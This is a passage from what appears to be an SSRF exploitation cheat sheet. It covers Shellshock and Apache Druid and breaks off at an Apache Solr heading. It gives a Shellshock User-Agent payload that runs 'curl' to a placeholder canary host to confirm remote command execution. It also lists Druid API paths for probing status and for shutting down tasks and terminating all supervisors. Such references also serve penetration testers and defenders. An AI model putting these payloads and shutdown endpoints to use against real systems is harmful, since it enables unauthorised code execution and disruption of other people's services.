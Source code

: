 Writeup can be found [here](https://www.kernelpicnic.net/2017/05/29/Pivoting-from-blind-SSRF-to-RCE-with-Hashicorp-Consul.html).

<div id="shellshock"></div>

## Shellshock

**Commonly bound ports: 80, 443 (SSL), 8080**

In order to effectively test for Shellshock, you may need to add a header containing the payload. The following CGI paths are worth trying:

Short list of CGI paths to test:

[Gist containing paths](https://gist.github.com/infosec-au/009fcbdd5bad16bb6ceb36b838d96be4).

**SSRF Canary: Shellshock via User Agent**

```bash
User-Agent: () { foo;}; echo Content-Type: text/plain ; echo ;  curl SSRF_CANARY
```

<div id="druid"></div>

## Apache Druid

**Commonly bound ports: 80, 8080, 8888, 8082**

See the API reference for Apache Druid [here](https://druid.apache.org/docs/latest/operations/api-reference.html).

If you can view the status code, check the following paths to see if they return a 200 status code:

```bash
/status/selfDiscovered/status
/druid/coordinator/v1/leader
/druid/coordinator/v1/metadata/datasources
/druid/indexer/v1/taskStatus
```

Shutdown tasks, requires you to guess task IDs or the datasource name:

```bash
/druid/indexer/v1/task/{taskId}/shutdown
/druid/indexer/v1/datasources/{dataSource}/shutdownAllTasks
```

Shutdown supervisors on Apache Druid Overlords:

```bash
/druid/indexer/v1/supervisor/terminateAll
/druid/indexer/v1/supervisor/{supervisorId}/shutdown
```

<div id="solr"></div>

## Apache Solr

**Commonly bound port: 8983**
